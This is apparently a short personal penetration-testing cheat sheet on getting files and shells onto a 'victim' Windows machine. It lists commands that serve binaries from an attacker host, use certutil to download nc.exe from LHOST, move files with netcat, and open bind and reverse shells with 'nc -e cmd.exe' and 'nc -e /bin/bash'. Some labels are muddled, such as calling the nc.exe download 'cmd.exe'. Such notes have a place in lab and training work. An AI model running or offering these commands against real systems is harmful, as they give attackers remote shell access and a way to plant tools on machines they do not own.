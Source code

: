transfer file if victim is windows
- cd /usr/share/windows-binaries/  (contains cmd.exe)
- python -m SimpleHTTPServer 80 

on victim machine CMD
- certutil -urlcache -f http://LHOST/nc.exe nc.exe (download cmd.exe)

on attacker machine 
- vim test.txt 
- nc -nv VIctim-IP 1234 < test.txt

on victim machine
- nc.exe -lvnp 1234 > test.txt


bindshell from windows to linux
- nc.exe -nvlp 1234 -e cmd.exe (from victim machine)
- nc -nv 10.4.21.221 1234 (connect back)
or reverse it  from linux to windows
- nc -nvlp 1234 -e /bin/bash (from attacker machine)
- nc.exe -nv 10.10.3.2 1234 (connect back)


